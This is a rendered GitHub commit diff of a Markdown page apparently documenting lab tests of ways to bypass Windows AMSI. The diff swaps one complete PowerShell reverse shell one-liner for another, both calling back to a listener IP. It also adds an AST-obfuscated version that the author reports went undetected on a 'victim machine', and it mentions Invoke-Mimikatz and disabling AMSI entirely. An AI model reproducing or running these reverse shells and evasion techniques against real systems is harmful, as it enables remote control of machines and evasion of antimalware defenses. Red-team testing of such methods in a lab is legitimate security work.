

Before and after one commit to THELTG/Project-Wraith, a Markdown page: docs/Testing AMSI bypass methods.md, 3 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Updates to AMSI bypass tests

````diff
--- a/docs/Testing AMSI bypass methods.md
+++ b/docs/Testing AMSI bypass methods.md
@@ -1,13 +1,10 @@
-
-Done by : Aum Jiwoo
-
----
 ### Test 1 : Obfuscation of commands
 
-First, I verified that the following powershell reverse shell command would be detected by AMSI.
+First, it was verified that the following powershell reverse shell command would be detected by AMSI.
 
 ```
-$LHOST = "192.168.25.134"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()
+$client = New-Object System.Net.Sockets.TCPClient('192.168.50.18',9999);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
 ```
 
+As shown in the screenshot below, AMSI managed to detect the command as malicious and blocked it.
 
@@ -17,5 +18,11 @@ $LHOST = "192.168.25.134"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TC
 
+We discovered through testing and research that the most effective obfuscation method is **AST**. The regular encoding options, which include encoding the command in ASCII, Binary, and the encryption of the entire command as SecureString, all seem to get detected by AMSI pretty easily.
 
+After encoding with the AST option, we get the following output :
 
+```
+Set-Variable -Name client -Value (New-Object System.Net.Sockets.TCPClient('192.168.25.134',4444));Set-Variable -Name stream -Value ($client.GetStream());[byte[]]$bytes = 0..65535|%{0};while((Set-Variable -Name i -Value ($stream.Read($bytes, 0, $bytes.Length))) -ne 0){;Set-Variable -Name data -Value ((New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i));Set-Variable -Name sendback -Value (iex $data 2>&1 | Out-String );Set-Variable -Name sendback2 -Value ($sendback + 'PS ' + (pwd).Path + '> ');Set-Variable -Name sendbyte -Value (([text.encoding]::ASCII).GetBytes($sendback2));$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
+```
 
+After executing the command on the victim machine, we can see that it did not get detected/blocked by AMSI :
 
@@ -24,8 +34,8 @@ $LHOST = "192.168.25.134"; $LPORT = 4444; $TCPClient = New-Object Net.Sockets.TC
 
+However, this method would not be very helpful if the attacker had to run multiple commands. That would mean each command would have to be repeatedly encoded using the Invoke-Obfuscation tool. Thus, this method is better if used to execute one command only (e.g Invoke-Mimikatz)
 
-
-
+The better option would be disabling AMSI entirely.
 
 ---
 
-### Test 2 : Disabling AMSI - Reflection method
+### Test 2 : Disabling AMSI - Reflection method (To-Do)
````
Also changed, not shown: other parts of docs/Testing AMSI bypass methods.md (+7 -0 lines), docs/misc/encoded.png (added), docs/misc/encodingOptions.png (added), docs/misc/image.png (added), docs/misc/revshell.png (added).
